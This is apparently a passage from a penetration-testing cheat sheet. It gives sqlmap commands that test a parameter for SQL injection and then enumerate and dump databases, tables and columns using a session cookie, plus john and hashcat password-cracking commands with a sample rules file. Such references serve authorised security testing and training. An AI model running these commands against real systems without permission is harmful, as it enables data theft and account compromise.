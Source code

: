 ### SQL INJECTION

**sqlmap**<br>
-u URL<br>
--cookie COOKIE<br>
-p PARAMETER<br>
--dbs: list databases<br>
-D DATABASE<br>
--tables: list tables<br>
-T TABLE<br>
--columns: list columns<br>
-C COLUMN<br>
--dump: show data

Check for SQLi vulnerability
```
sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER
```

Exploit
```
sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables -T TABLE --columns

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables -T TABLE -C COLUMNS --dump
```

## SYSTEM ATTACKS

### HASH CRACKING

**john**<br>
--wordlist WORDLIST
```
john HASH --wordlist=WORDLIST
```

**hashcat**<br>
-a ATTACK_MODE<br>
-m HASH_TYPE<br>
-r RULES (from https://hashcat.net/wiki/doku.php?id=rule_based_attack)
```
hashcat -a0 -m1500 -r RULES.txt HASH WORDLIST
```

Example RULES.txt
```
l
u
$1
$2
$3
$4
```

